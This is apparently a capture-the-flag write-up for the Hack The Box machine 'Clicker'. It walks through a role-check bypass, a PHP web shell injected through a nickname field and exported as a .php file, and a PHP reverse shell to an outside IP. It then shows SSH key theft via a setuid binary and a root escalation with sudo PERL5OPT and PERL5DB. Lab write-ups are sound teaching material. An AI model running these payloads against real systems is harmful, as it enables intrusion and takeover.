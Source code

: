 # CLICKER
after nmapping i can see there is a website 

Trying to play with the game while the big -p- nmap is running / the cookie / the GET parameters nothing looks interresting here

we can mount it there is a mount file sharing open
on the mounted folder i have found a .zip file i download it and unzip it this is the code of the website it seems

in index.php there is a /admin.php that we couldnt see
```
          if ($_SESSION["ROLE"] == "Admin") {
            echo '<a class="nav-link fw-bold py-1 px-0 active" href="/admin.php">Administration</a>';
          } 	 
```
try to go to http://clicker.htb/admin.php we are getting redirect to index

in save_game.php
```
	foreach($_GET as $key=>$value) {
		if (strtolower($key) === 'role') {
			// prevent malicious users to modify role
			header('Location: /index.php?err=Malicious activity detected!');
			die;
		}
		$args[$key] = $value;
	}
```
we can see when you save the game we can have a parameter we didnt saw earlier lets play with it
```
GET /save_game.php?clicks=0&level=0&role=Admin HTTP/1.1
Host: clicker.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://clicker.htb/play.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hv48e3anl1u77p43o4o95dikos
Connection: close

```
/index.php?err=Malicious activity detected!
thats what i saw in the code so i need to bypass the if in order to change my $_SESSION['ROLE']
```GET /save_game.php?clicks=0&level=0&role%0a=Admin```
```Location: /index.php?msg=Game has been saved!```

so from now we should be admin and access admin.php
took some time to realise i need to disconnnect / reconnect in order for the $_SESSION value to update 
Now we have Administration available in the menu
with an export tool and looks like the export is saving the file in the box
```
Data has been saved in exports/top_players_1r0pcxwv.json
```
take back the code we can see there is only 
if extension = txt
    or = json 
    else 
```
$filename = "exports/top_players_" . random_string(8) . "." . $_POST["extension"];
```
so no problem injecting php here we just nee to be able to change the nickname, clicks or level for some php
 
in the code we can see:
```
$currentplayer = get_current_player($_SESSION["PLAYER"]);
```
```
  $s .= '    <th scope="row">' . $currentplayer["nickname"] . '</th>';
  $s .= '    <td>' . $currentplayer["clicks"] . '</td>';
  $s .= '    <td>' . $currentplayer["level"] . '</td>';
```
so the player is all in session 
lets try to exploit that 
```
GET /save_game.php?clicks=1990&level=1990&nickname=<?php system('ls')>
url encoded 
GET /save_game.php?clicks=1990&level=1990&nickname=<%3fphp+system('ls')> HTTP/1.1
```

go to the export page export it as php and its working !
so now we'll make a shell by GET parameters from that
```
GET /save_game.php?clicks=1990&level=1990&nickname=<%3fphp+system($_GET['cmd'])> HTTP/1.1
Host: clicker.htb
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.6045.159 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://clicker.htb/play.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=hv48e3anl1u77p43o4o95dikos
Connection: close
````
response 
```
GET /index.php?msg=Game%20has%20been%20saved! HTTP/1.1
```

http://clicker.htb/exports/top_players_pnbzxi8u.php?cmd=id
```
uid=33(www-data) gid=33(www-data) groups=33(www-data)	
```

http://clicker.htb/exports/top_players_pnbzxi8u.php?cmd=php+-r+%27$sock%3dfsockopen(%2210.10.14.28%22,4444)%3bexec(%22/bin/sh+-i+%3C%263+%3E%263+2%3E%263%22)%3b%27

we got a shell

as usual to get a good shell
```
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
ctrl + z
stty raw -echo; fg
```

in /home we got jack (no access)
nothing look interresting in linpeas 
```
www-data@clicker:/tmp$ ls -lRa /opt
/opt:
total 16
drwxr-xr-x  3 root root 4096 Jul 20 10:00 .
drwxr-xr-x 18 root root 4096 Sep  5 19:19 ..
drwxr-xr-x  2 jack jack 4096 Jul 21 22:29 manage
-rwxr-xr-x  1 root root  504 Jul 20 10:00 monitor.sh

/opt/manage:
total 28
drwxr-xr-x 2 jack jack  4096 Jul 21 22:29 .
drwxr-xr-x 3 root root  4096 Jul 20 10:00 ..
-rw-rw-r-- 1 jack jack   256 Jul 21 22:29 README.txt
-rwsrwsr-x 1 jack jack 16368 Feb 26  2023 execute_query
```
execute query looks interresting trying to play with it the README give some explanations how to use it

Web application Management
Use the binary to execute the following task:
        - 1: Creates the database structure and adds user admin
        - 2: Creates fake players (better not tell anyone)
        - 3: Resets the admin password
        - 4: Deletes all users except the admin

so clearly this executable manage the database of the web server
when i run strings to execute_query i can see 
```
/home/jack/queri
/usr/bin/mysql -u clicker_db_user --password='clicker_db_password' clicker -v <
```

we connect to the database with that 
```
mysql -u clicker_db_user -p 
```
and password: clicker_db_password 
cant hashcat the sha256 i found

after some research found that 
```
./execute_query 5 ../.ssh/id_rsa 
```
would read me the file and get me the id_rsa of jack
user.txt is here
```
sudo -l 
```
give me /opt/monitor.sh that i can use as root 
in the script didnt know what this was for so i googled 
```
unset PERL5LIB;
unset PERLLIB;
```

found this https://www.exploit-db.com/exploits/39702
```
sudo PERL5OPT=-d PERL5DB='exec "chmod u+s /bin/bash"' /opt/monitor.sh
bash -p 
```
and rooted

